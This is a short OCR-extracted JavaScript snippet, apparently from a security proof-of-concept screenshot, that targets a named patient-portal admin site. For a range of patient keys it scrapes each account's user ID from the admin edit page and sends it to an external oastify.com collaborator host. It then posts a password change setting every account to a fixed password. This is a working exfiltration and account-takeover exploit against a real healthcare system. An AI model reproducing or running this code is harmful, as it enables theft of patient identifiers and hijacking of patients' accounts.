for (let i = 199234; i <= 199237; i++) {
  fetch(`https://pateng.erad.com/Admin/AdminUsers/Edit?aPatientKey=${i}`)
    .then(res => res.text())
    .then(res => {
      let match = res.match(/id='UserIDText'>(.*?)<\/span>/);
      if (match) {
        fetch(`https://hyjo5pcqjw1lb0tv63u2llog379yxold.oastify.com?data=${encodeURIComponent(match[1])}`);
      }
      return fetch("https://pateng.erad.com/Admin/AdminUsers/SavePasswordChange", {
        method: "POST",
        headers: { "Content-Type": "application/x-www-form-urlencoded" },
        body: `aPatientKey=${i}&NewPassword=Test%40123%4012`
      });
    });
}
